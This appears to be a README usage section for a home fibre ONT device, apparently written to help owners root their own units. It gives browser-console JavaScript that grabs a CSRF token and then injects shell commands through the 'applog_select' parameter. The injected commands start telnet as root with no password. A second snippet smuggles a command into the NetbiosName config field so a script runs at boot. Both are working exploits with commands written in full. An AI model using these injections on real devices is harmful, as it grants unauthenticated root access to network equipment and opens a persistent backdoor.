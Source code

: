 # Usage

## Enabling telnet/SSH/serial

The code below can be pasted in the browser's console after opening `http://192.168.100.1` (default ONT's web UI). This will enable telnet as root with no password on the device (same can be done with `/usr/sbin/sshd` binary). The below hack uses an injection on the `eventlog_applog_download.json` page, the commands can be injected in the request body's `applog_select` parameter and they are executed as superadmin (root).
```javascript
// Fetch a non csrf protected page to get a csrf token
await fetch("http://192.168.100.1/setup.cgi?next_file=statusandsupport/status.html").then(function (response) {
	return response.text();
}).then(function (html) {
	//inject the html response into a HTML DOM to parse it
    var el = document.createElement( 'html' );
    el.innerHTML = html;
	//The token is inserted into the first <script> tag of the page
    var es = el.getElementsByTagName( 'script' );
	var aText = es[0].text;
	//Add the csrf token in the document for other requests
    document.csrf_token = aText.match("'(.*)'")[1];
}).catch(function (err) {
	console.warn('Something went wrong.', err);
});

//use the csrf token to activate telnet with no login and a shell

fetch('http://192.168.100.1/data/statussupporteventlog_applog_download.json?_=1686211215966&csrf_token='+document.csrf_token, {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
  },
  body: 'applog_select=a;echo "#!/bin/sh" > /tmp/slogin;echo "export PATH=/bin:/sbin:/usr/bin:/usr/sbin" >> /tmp/slogin;echo "/bin/sh" >> /tmp/slogin;/bin/chmod 755 /tmp/slogin;/usr/sbin/telnetd -l /tmp/slogin'
})
.then(res => res.json())
.then(console.log)
```

There is a way to make a script call at boot to ensure telnet or other services start at boot if needed. It uses a hack from libsl_system.so where there is a `system(...)` call using a String from config, string must be <=12 char. The system call is supposed to set set hostname of the device for storage sharing.
In the example below, a `/data/up` shell script would be created (ensure it has execute rights, such as: `chmod 755`).
```
#First we need to add the missing entry
/usr/bin/cmld_client add InternetGatewayDevice.Services.StorageService. 1
#Then inject within the 12 character limit the hostname and a call to our script
/usr/bin/cmld_client set InternetGatewayDevice.Services.StorageService.1.X_SC_NetbiosName='a;/data/up&'
/usr/bin/cmld_client save
```
